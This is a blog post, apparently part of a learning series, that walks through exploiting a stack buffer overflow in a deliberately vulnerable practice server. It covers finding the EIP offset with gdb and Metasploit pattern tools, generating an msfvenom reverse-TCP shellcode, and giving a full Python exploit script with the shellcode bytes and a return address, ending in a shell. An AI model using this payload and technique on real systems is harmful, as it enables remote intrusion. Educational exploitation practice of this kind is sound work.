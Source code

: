 ```yaml
---
layout: default
title: Learning binary exploitation — 3
---
```


Learning binary exploitation — 3
================================

The vulnerable code I used in this blog:

[Vulnerable-Server/exploit\_smart\_server.py at master · dennis95stumm/Vulnerable-Server](https://github.com/dennis95stumm/Vulnerable-Server/blob/master/exploit_smart_server.py)

Overflowing the buffer
======================

First, I used gdb to figure out which function was responsible for checking the input we provide. Looks like checkAuth is the function I was looking for.

![](https://miro.medium.com/max/1400/1*F5dh6MMRacJ7zyKm6G2uBA.png)

To observe the state of the registers and the stack, I created a breakpoint right after strcmp instruction in checkAuth function. Then I created a buffer of length 5000 hoping that it would be sufficient to overflow the buffer.

```
msf-pattern\_create -l 5000
```
![](https://miro.medium.com/max/1400/1*0zJTOJdqTde9Uvln8Z-3HA.png)It was sufficient!

Notice the address at the bottom, that’s the EIP. After obtaining the EIP, I tried to find the exact offset required to overflow the buffer.

```
msf-pattern\_offset -l 5000 -q 0x63413962
```

*   _The offset was 58_

At this point I realized two things:

1.  Even if I send a normal input after setting a breakpoint, the contents of `secret_buffer`, which holds the key to validating our input, is revealed.
2.  If I had looked at the code of `checkAuth` function first, instead of being a skid and going straight into exploitation, I would’ve instantly found the key (secret\_buffer) and noticed another variable `auth_flag` which determines if the program should move forward or not.

![](https://miro.medium.com/max/1400/1*IY4xTS7yPLyZsdKFLM_a3g.png)LESSON LEARNED

Anyway, what’s happening here is, when we overflow the buffer it actually overwrites the auth\_flag too which is then returned by `checkAuth`function and is eventually checked if it’s true or not, so any value other than 0 will get us through.

Shellcode Injection
===================

Now I could perfectly overwrite EIP with `python -c 'print "A"*58+"BBBB"'`

![](https://miro.medium.com/max/1400/1*FTSIG8Ma_VkGKK-LcX98ZQ.png)EIP Overwritten

Now, I just had to find a unique address to inject the shellcode.

**_Note: Do_** `**unset env**` **_in gdb to remove any environment variables during the program run which may alter the memory addresses_**

Before finding a location for my shellcode, I had to generate one.

```
msfvenom -p linux/x86/shell\_reverse\_tcp -b "\\x00" LHOST=<listening-ip> LPORT=<listening-port> -f python -o reverse
```

Also, to make sure memory address don’t get messed up I used NOPs too. I struggled quite a bit to find a suitable memory address. Here’s how I did it:

1.  I just used `print pad+nopslide+test_payload`to find the address where “\\x43” starts
2.  Then used that address in place of $eip, hoping that eip will point to the location of my shellcode (test\_payload, in the previous step)
3.  Now, I tested `print pad+eip+nopslide+test_payload` and this time I noticed “\\x43” started from a different address, maybe the additional 4 bytes of $eip that I provided had somehow shifted the memory locations.
4.  So, I used the address I found in (3) in eip and redirected the output of exploit.py into the program and got a shell

P.S. I’m not sure if this is the right way to do this.

Here’s the exploit script that I used:

```
import structpad = "A"\*58  
eip = struct.pack("<I", 0xffffd1b2)   
buf =  b""  
buf += b"\\xd9\\xee\\xba\\x44\\x2f\\xab\\x19\\xd9\\x74\\x24\\xf4\\x5f\\x31"  
buf += b"\\xc9\\xb1\\x12\\x31\\x57\\x17\\x83\\xef\\xfc\\x03\\x13\\x3c\\x49"  
buf += b"\\xec\\xaa\\x99\\x7a\\xec\\x9f\\x5e\\xd6\\x99\\x1d\\xe8\\x39\\xed"  
buf += b"\\x47\\x27\\x39\\x9d\\xde\\x07\\x05\\x6f\\x60\\x2e\\x03\\x96\\x08"  
buf += b"\\x71\\x5b\\x50\\xcd\\x19\\x9e\\xa1\\xee\\xf0\\x17\\x40\\x40\\x64"  
buf += b"\\x78\\xd2\\xf3\\xda\\x7b\\x5d\\x12\\xd1\\xfc\\x0f\\xbc\\x84\\xd3"  
buf += b"\\xdc\\x54\\x31\\x03\\x0c\\xc6\\xa8\\xd2\\xb1\\x54\\x78\\x6c\\xd4"  
buf += b"\\xe8\\x75\\xa3\\x97"test\_payload = "C"\*95  
nopslide = "\\x90"\*100print pad+eip+nopslide+buf
```

Of course, I could’ve just used sockets to make things easier, but I was feeling a bit adventurous ¯\\\_(ツ)\_/¯

So I sent this payload…

![](https://miro.medium.com/max/1400/1*53krhS2u8gJArpYkst3KAg.png)

...and I got the shell!

Thank you for reading.